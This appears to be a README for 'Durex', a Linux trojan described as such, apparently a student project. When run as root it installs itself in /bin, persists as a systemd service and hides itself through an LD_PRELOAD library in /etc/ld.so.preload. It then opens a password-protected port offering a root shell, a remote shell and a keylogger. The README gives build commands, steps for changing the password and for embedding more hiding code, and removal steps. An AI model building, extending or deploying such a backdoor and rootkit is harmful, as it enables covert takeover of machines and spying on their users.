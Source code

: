 # DUREX
Simple Trojan

## INSTALLATION && USAGE
### As Normal User
```sh
$> make && ./Durex
JohnDoe
$>
```
Durex only print the user actually connected.

### As Root
```sh
$> make && ./Durex
root
$>
```
Durex only print the user actually connected... but Durex will also :

+ Create a _copy_ of himself in **/bin**
+ Create a _durex.service_ file in **/lib/systemd/system** to add himself as a service, launching himslef at bootime as a deamon
+ Create a _durex.so_ library in **/usr/local/lib/** to hide himself and his functions from the system
+ Add this library in **/etc/ld.so.preload**
+ Create a _Durex.log_ file in **/var/log/**

Only one instance of Durex is created. And during his copy, Durex will changed a bit his behaviour allowing himself to :

+ Open a server on port *4242*, allowing *3* clients to connect to it
	+ The server is locked by a password
	+ The server offers to the clients:
		+ A shell as root
		+ A remote shell as root
		+ A keylogger

### Le binaire a été testé sur une Debian 9.3.0 64bits.

## MODIFICATION
### Password generation
+ Generate a new password with the 'pass' executable:
```sh
$> make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
$> ./pass toto
toto (4): 191 248 92 67 189 94 197 184
$> ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```
+ Use your best editor to modify **durex.h** :
```c
# define SERVER_PASS .. .. .. .. ..
```
+ Recompile

### Library

* Create your file and compile it
```sh
$> gcc -Wall -fPIC -shared -o ./Durex.so [myfile.c] -ldl
```
* If it compiles well, create the **hex** binary
```sh
$> make hex
cc -o hex other/txttohex.c -I includes/
$> ./hex [fichier.c]
\x23\x64\x65...
```
* Add the hexadecimal generated above in **includes/main.h**
```c
# define DUREX_MY_FILE		"/tmp/myfile.c"
# define DUREX_MY_SRC		"\x23\x64\x65\x66..."
```
* Finally add those defines in **src/library.c**
```c
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE, \*DUREX_MY_FILE*\,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC, \*DUREX_MY_SRC*\ };
   ...
}
```
* Recompile the binary

### Deleting
+ If you had previously executed the binary has root you must :
	- Stop the service durex
	- Disable the service durex
	- Remove /etc/ld.so.preload
	- Remove /bin/Durex
	- Remove /lib/systemd/system/durex.service
	- Remove /var/log/Durex.log

+ I intentionnaly put no protection on deleting **/etc/ld.so.preload** to clean this up.
+ Read **lib_srcs/rm.c** to think about it. ;)

# AUTHOR
* gbourgeo
